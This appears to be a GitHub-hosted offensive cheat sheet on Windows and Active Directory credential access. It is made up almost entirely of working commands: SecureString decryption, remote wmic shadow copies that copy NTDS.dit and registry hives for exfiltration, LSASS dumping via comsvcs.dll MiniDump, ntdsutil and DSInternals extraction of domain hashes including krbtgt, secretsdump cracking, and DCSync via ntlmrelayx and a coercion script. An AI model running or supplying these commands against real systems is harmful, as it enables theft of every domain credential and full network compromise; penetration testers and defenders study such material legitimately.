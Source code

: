# Credential Access

### SecureString to Plaintext

```powershell
$SecPass = "<SECURE PASS STRING>" | ConvertTo-SecureString; 
(New-Object System.Management.Automation.PSCredential "N/A", $SecPass).GetNetworkCredential().Password; 
```
### Passwords in Description
`ActiveDirectory` Module

```powershell
Get-ADUser -Filter 'Description -like "*password*"' -Properties Description | select name,Description
```
Using `PowerView.ps1`
GitHub: [https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)
```powershell
Find-UserField -SearchField Description -SearchTerm "password"
```
### Volume Shadow Creation
Source: [https://www.picussecurity.com/resource/blog/t1047-windows-management-instrumentation-of-the-mitre-attack-framework](https://www.picussecurity.com/resource/blog/t1047-windows-management-instrumentation-of-the-mitre-attack-framework)
```powershell
# creating volume shadow copy
wmic /node:"[AD_IP_address]" /user:"[username]" /password:"[password]" process call create "cmd /c vssadmin create shadow /for=C: 2>&1"

# copying NTDS.dit, SYSTEM and SECURITY files from shadow copy
wmic /node:"[AD_IP_address]" /user:"[username]" /password:"[password]" process call create "cmd /c copy \\[shadow_copy_dir]\\Windows\\NTDS\\NTDS.dit [target_folder] & copy \\[shadow_copy_dir]\\Windows\\System32\\config\\SYSTEM [target_folder] & copy \\[shadow_copy_dir]\\Windows\\System32\\config\\SECURITY [target_folder]"

# compressing files for exfiltration
7za.exe a -mx3 nt.7z \\\\[AD_IP_address]\\c$\\[target_folder]
```
### Dumping LSASS with \`rundll32.exe\`
Same behavior that would occur if you `Right-Clicked` the process in Task Manager and dump LSASS manually.
```powershell
.\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 624 C:\temp\lsass.dmp full
```
### Memory Dump with `Get-StorageDiagnosticInfo`
Source: [https://x.com/0gtweet/status/1440255495797764108](https://x.com/0gtweet/status/1440255495797764108)
https://docs.microsoft.com/en-us/powershell/module/storage/get-storagediagnosticinfo?view=windowsserver2019-ps
```powershell
$fname = Get-StorageSubSystem | Select -Property FriendlyName
Get-StorageDiagnosticInfo -StorageSubSystemFriendlyName $fname -IncludeLiveDump -DestinationPath C:\
```
### Dumping NTDS with `ntdsutil.exe`
```powershell
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
```
### Extracting from NTDS, SYSTEM, SECURITY
You may have to modify the following registry key:
* `HKLM\\System\\CurrentControlSet\\Control\\Lsa\\FipsAlgorithmPolicy and set "Enabled" to 0`
```powershell
Install-Module DSInternals; Import-Module DSInternals;

$key = Get-BootKey -SystemHivePath '.\registry\SYSTEM';
Get-ADDBAccount -DistinguishedName 'CN=krbtgt,CN=Users,DC=burmat,DC=local' -DBPath '.\Active Directory\ntds.dit' -BootKey $key;
```
## SECRETSDUMP
### Extracting NTDS with `ntdsutil.exe`
```powershell
C:\> ntdsutil
ntdsutil: activate instance ntds
ntdsutil: ifm
ifm: create full c:\pentest
ifm: quit
ntdsutil: quit
```
### Offline NTDS Cracking
```sh
secretsdump.py -ntds ./active directory/atds.dit -system SYSTEM LOCAL -output secrets_dump.ntds -user-status
```
Remove all of the garbage/disabled accounts:
```sh
grep -i "Enabled" secretsdump.ntds | awk -F":::" '{print $1":::"}'| grep -v '$:\\|$DUPLICATE\\|IWAM_\\|IUSR_\\|ASPNET\\|HelpAssistant\\|SUPPORT_\\|Guest\\|DefaultAccount\\|HealthMailbox' >> Enabled_Accounts.txt
```
### DCSync
```sh
ntlmrelayx.py -t DCSYNC://172.16.1.200 -smb2support -debug
python3 dementor.py -d burmat.local -u jsmith -p 'S3cur3PASS123$' 10.10.1.141 172.16.1.23 -debug
```